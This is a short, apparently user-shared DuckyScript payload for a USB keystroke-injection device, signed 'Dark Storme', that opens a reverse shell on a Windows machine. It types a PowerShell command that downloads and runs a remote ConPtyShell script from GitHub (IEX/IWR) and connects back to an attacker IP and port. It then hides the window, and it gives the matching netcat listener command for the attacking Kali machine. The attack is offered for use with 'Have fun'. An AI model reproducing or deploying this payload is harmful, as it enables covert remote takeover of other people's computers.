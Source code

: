 REM Title:Reverse shell with poweshell
REM Author:Dark Storme
REM Description:Based on a Video by Network Chuck. I just made a Ducky version.
REM Target:Windows
DELAY 1000
GUI r
DELAY 500
STRING powershell.exe
DELAY 500
ENTER
DELAY 1000
STRING IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell (IP) (Port)
DELAY 500
ENTER
DELAY 500
ALT SPACE
STRING N
ENTER

The above is the code for the ducky inject.bin

Open terminal on attacking Kali machine and enter

stty raw -echo; (stty size; cat) | nc -lvnp (port number)

This code is based on a video by Networkchuck. I just made the Ducky script.

Have fun.
Dark Storme
